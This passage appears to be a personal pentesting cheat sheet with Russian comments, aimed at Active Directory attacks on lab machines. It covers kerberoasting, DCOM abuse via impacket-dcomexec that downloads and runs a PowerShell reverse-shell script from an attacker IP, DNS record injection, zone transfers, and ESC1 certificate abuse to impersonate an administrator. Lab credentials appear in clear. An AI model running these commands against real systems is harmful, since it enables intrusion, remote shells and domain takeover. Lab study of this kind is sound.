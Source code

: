   		 .\Rubeus.exe kerberoast /stats

* DCOM Abusing

  		impacket-dcomexec -object MMC20 -silentcommand -debug jab.htb/svc_openfire:'!@#$%^&*(1qazxsw'@10.10.11.4 'powershell.exe Invoke-WebRequest -Uri http://10.10.14.94:80/Invoke-PowerShellTcp.ps1 -OutFile C:\Windows\TEMP\shell.ps1'   (выполнение комманд - загрузка скрипта)

  		impacket-dcomexec -object MMC20 -silentcommand -debug jab.htb/svc_openfire:'!@#$%^&*(1qazxsw'@10.10.11.4 'powershell.exe C:\Windows\TEMP\shell.ps1'


  		

# DNS
ipconfig /flushdns  (очистить кеш днс)

	 nslookup
	> server 10.10.10.248
	Default server: 10.10.10.248
	Address: 10.10.10.248#53
	> svc_int.intelligence.htb
	Server:         10.10.10.248
	Address:        10.10.10.248#53

dnstool.py -u 'intelligence\Tiffany.Molina' -p NewIntelligenceCorpUser9876 10.10.10.248 -a add -r web1 -d 10.10.14.58 -t A   (создание ДНС записи в домене)

dig axfr students.local @192.168.50.12 (трансфер зоны DNS)

gobuster dns -d 'snoopy.htb' -w /etc/theHarvester/wordlists/dns-names.txt -t 100 (нужно скачать словарик днс - секлист дисковери днс субдомаин топ 1 милион)
https://github.com/mxdelta/SecLists/blob/master/Discovery/DNS/subdomains-top1million-5000.txt



# Проверка сертификатов

	certipy-ad find -u svc_ldap@authority.htb -p lDaP_1n_th3_cle4r! -dc-ip 10.10.11.222

* Sertifycate
		pip3 install -U certipy-ad
		
  		Поиск центра сертификации

		crackmapexec ldap 'dc.sequel.htb' -d 'sequel.htb' -u 'Ryan.Cooper' -p 'NuclearMosquito3' -M adcs

		certipy-ad find -u 'n.popov' -p 'Sagatuarus2' -dc-ip '192.168.134.10' -stdout

		1. Поиск уязвимых шаблонов
	
		.\Certify.exe find /vulnerable

		certipy-ad find -u 'ryan.cooper@sequel.htb' -p 'NuclearMosquito3' -dc-ip '10.10.11.202' -vulnerable -stdout -debug
		
		ESC1 - 1. Запрс сертификата для administrator

		.\certify request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:administrator
		& "C:\Program Files\OpenSSL-Win64\bin\openssl.exe" pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
